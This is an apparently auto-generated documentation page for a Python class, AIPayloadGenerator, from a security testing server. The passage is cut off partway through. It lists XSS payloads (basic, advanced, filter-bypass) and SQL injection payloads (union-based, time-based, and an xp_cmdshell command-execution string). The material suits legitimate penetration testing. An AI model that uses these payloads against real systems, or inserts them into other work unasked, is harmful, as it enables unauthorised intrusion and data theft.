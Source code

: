 ```yaml
---
title: class.AIPayloadGenerator
kind: class
scope: module
module: __main__
line_range: [12671, 12870+]
discovered_in_chunk: 13
---
```


# AIPayloadGenerator

## Entity Classification & Context
- **Kind:** Class
- **Scope:** Module-level
- **Module:** __main__ (reference-server.py)
- **Purpose:** AI-powered payload generation system with contextual intelligence

## Complete Signature & Definition
```python
class AIPayloadGenerator:
    """AI-powered payload generation system with contextual intelligence"""
    
    def __init__(self):
        self.payload_templates = {
            "xss": {
                "basic": ["<script>alert('XSS')</script>", "javascript:alert('XSS')", "'><script>alert('XSS')</script>"],
                "advanced": [
                    "<img src=x onerror=alert('XSS')>",
                    "<svg onload=alert('XSS')>",
                    "';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//",
                    "\"><script>alert('XSS')</script><!--",
                    "<iframe src=\"javascript:alert('XSS')\">",
                    "<body onload=alert('XSS')>"
                ],
                "bypass": [
                    "<ScRiPt>alert('XSS')</ScRiPt>",
                    "<script>alert(String.fromCharCode(88,83,83))</script>",
                    "<img src=\"javascript:alert('XSS')\">",
                    "<svg/onload=alert('XSS')>",
                    "javascript:alert('XSS')",
                    "<details ontoggle=alert('XSS')>"
                ]
            },
            "sqli": {
                "basic": ["' OR '1'='1", "' OR 1=1--", "admin'--", "' UNION SELECT NULL--"],
                "advanced": [
                    "' UNION SELECT 1,2,3,4,5--",
                    "' AND (SELECT COUNT(*) FROM information_schema.tables)>0--",
                    "' AND (SELECT SUBSTRING(@@version,1,10))='Microsoft'--",
                    "'; EXEC xp_cmdshell('whoami')--",
                    "' OR 1=1 LIMIT 1--",
                    "' AND 1=(SELECT COUNT(*) FROM tablenames)--"
                ],
                "time_based": [
                    "'; WAITFOR DELAY '00:00:05'--",
                    "' OR (SELECT SLEEP(5))--",
                    "'; SELECT pg_sleep(5)--",
```